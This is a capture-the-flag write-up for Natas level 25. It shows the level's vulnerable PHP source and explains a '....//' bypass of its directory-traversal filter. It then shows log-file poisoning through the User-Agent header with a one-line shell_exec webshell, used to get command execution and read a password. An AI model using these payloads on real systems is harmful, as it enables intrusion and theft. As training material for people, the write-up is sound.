 # Natas
> Level : Natas Level 25<br/>
> Solved : 28th July 2021<br/>
> Remarks : Local File Inclusion + code Execution<br/>
<br/>

## Quest
We are presented with a webpage containing a badass Quote.

![](./images/Level25.png)

Backend Code for this page

```php
<?php
function setLanguage(){
    /* language setup */
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}

function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
    
function listFiles($path){
    $listoffiles=array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[]=$file;
    
    closedir($handle);
    return $listoffiles;
} 

function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```
<br/>

## Solution

Lets shift focus from awesomeness of the presented quote to finding password for the next Level.

Below is the Breakdown of relevant functions in Backend code.

The `setLanguage()` function

  - This function checks if `lang` parameter exists in our request and then includes that file using `safeinclude()`.<br/>
  - If not present, default file to include is `language/en`<br/>
        
The `safeinclude()` function

  - checks for Directory Traversal attacks, it finds and replaces `../` with empty string.<br/>
  - It also exits, when attempt is made to retrieve password file for next level (`/etc/natas_webpass/natas26`)<br/>
  - if above two checks are passed, it includes the file<br/>

The `logRequest()` function

  - This function logs error when `safeinclude` functions finds attack attempts<br/>
  - Notice that it directly embeds the clients `USER_AGENT` string in the log file. This can come handy later.<br/>
  - We have path of log file as `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`<br/>


Lets get to work now.

Firstly tried with the usual directory traversals payloads and got no luck (this was somewhat expected)

![](./images/Level25_solution.png)

After a while, turned to local machine to understand various PHP functions used in Backend code.

First lets see how `strstr` function works. `strstr` function finds first occurence of a string and returns the whole string starting from that occurence

```php
echo strstr('hello/../../../etc/passwd/../', '../');   # Output : ../../../etc/passwd/../
```

Next, lets see `str_replace` . It Replaces all occurrences of the search string with the replacement string.

```php
echo str_replace('../', '', '../../../../etc/passwd');  # Output : etc/passwd
```
<br/>

Then i looked at if somehow i can bypass these functions, and it turns out that yes, it could be done.

See Below session

```php
# I tried different things to bypass str_relace functions and finally came up with this payload
echo str_replace('../', '', '....//....//....//....//etc/passwd');  # Output : ../../../../etc/passwd
```

So now, after `str_replace()` function runs, we can still slip in `../` characters and do Directory Traversal attack.

<br/>

Below, we use this to see a file that we know exists -> `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`

![](./images/Level25.1_solution.png)

Above we have successfully conducted Directory Traversal attack, but still can't display password containing file `/etc/natas_webpass/natas26` becuase of the code logic.

We'll now poison the log file with our webshell using the `User-Agent` header (handy!) and see if it works.

Our Webshell payload:
```php
<?php echo '<pre>' . shell_exec($_GET[ 'cmd']) . '</pre>';?>
```

It Worked and we have command execution! (happiness 👻)

![](./images/Level25.2_solution.png)


Now that we have command execution, lets reveal the password for next Level

![](./images/Level25.3_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - Read documentation and tested the PHP function strstr and str_replace<br/>
  - Log File poisoning use case<br/>
  - Chaining multiple vulnerabilities = Win<br/>

<br/>
This one was satisfying to do 😆

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
